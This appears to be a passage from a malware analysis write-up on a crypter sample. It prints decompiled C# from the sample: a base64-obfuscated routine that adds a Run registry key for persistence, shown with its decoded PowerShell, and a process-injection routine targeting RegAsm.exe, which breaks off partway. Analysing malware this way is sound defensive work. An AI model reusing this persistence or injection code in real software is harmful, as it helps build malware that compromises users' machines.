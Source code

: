 There were a few other functions that would do a few more operations, like writing itself to registry via the `RegAsm.exe` binary, presumably to establish some sort of persistence:
```c#
public static void CreatePersistenceViaRegistry()

{

CreateProcessCall(Encoding.UTF8.GetString(Convert.FromBase64String("UmVtb3ZlIC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLQ1U6XFNPRlRXQVJFXE1pY3Jvc29mdFxXaW5kb3dzXEN1cnJlbnRWZXJzaW9uXFJ1bicgLU5hbWUgJw==")) + Cronos_002DCrypter_FFFD_200D_FFFD_200D_FE0F_200D_200D_FFFD_FFFD_D83D_DCA3_FFFD_D83E_DD2D_FFFD + Encoding.UTF8.GetString(Convert.FromBase64String("JztOZXctSXRlbVByb3BlcnR5IC1QYXRoICdIS0NVOlxTT0ZUV0FSRVxNaWNyb3NvZnRcV2luZG93c1xDdXJyZW50VmVyc2lvblxSdW4nIC1OYW1lICc=")) + Cronos_002DCrypter_FFFD_200D_FFFD_200D_FE0F_200D_200D_FFFD_FFFD_D83D_DCA3_FFFD_D83E_DD2D_FFFD + Encoding.UTF8.GetString(Convert.FromBase64String("JyAtVmFsdWUgJyI=")) + Path.Combine(DirInfo.FullName, cFileInfo.Name) + Encoding.UTF8.GetString(Convert.FromBase64String("IicgLVByb3BlcnR5VHlwZSAnU3RyaW5nJw==")));

}
```
Which when decoded returns the following:
```c#
public static void CreatePersistenceViaRegistry()

{

CreateProcessCall("Remove -ItemProperty -Path 'HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '" + "dfs1" + "';New-ItemProperty -Path 'HKCU:\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run' -Name '" + "dfs1" + "' -Value '\"" + Path.Combine(DirInfo.FullName, cFileInfo.Name) + "\"' -PropertyType 'String'");

}
```

There is also a function call to what appears to be a function that tries to inject itself into the `RegAsm.exe` binary:
```c#
public static bool InjectSelf(string ProcName, byte[] FileData, bool TryInjectACL)
{
	for (int i = 1; i <= 5; i++)
	{
		if (TryInject(ProcName, FileData, TryInjectACL))
		{
			return true;
		}
	}
	return false;
}
	private static bool TryInject(string ProcessName, byte[] FileData, bool TryModifyAcl)
	{
		int NumOfBytesRead = 0;
		string @string = "#cmd";
		StartupInfoStruct StartupInfo = default(StartupInfoStruct);
		ProcessInformationStruct ProcessInfo = default(ProcessInformationStruct);
		StartupInfo.Size = Convert.ToUInt32(Marshal.SizeOf(typeof(StartupInfoStruct)));
		try
		{
		if (!CreateProcess(ProcessName, @string, IntPtr.Zero, IntPtr.Zero, InheritFlags: false, 4u, IntPtr.Zero, null, ref StartupInfo, ref ProcessInfo))
	{
		throw new Exception();
	}
		int PeHeaders = BitConverter.ToInt32(FileData, 60);
		int NtHeaders = BitConverter.ToInt32(FileData, PeHeaders + 26 + 26);
		int[] array = new int[179];
		array[0] = 65538;
		if (IntPtr.Size == 4)
```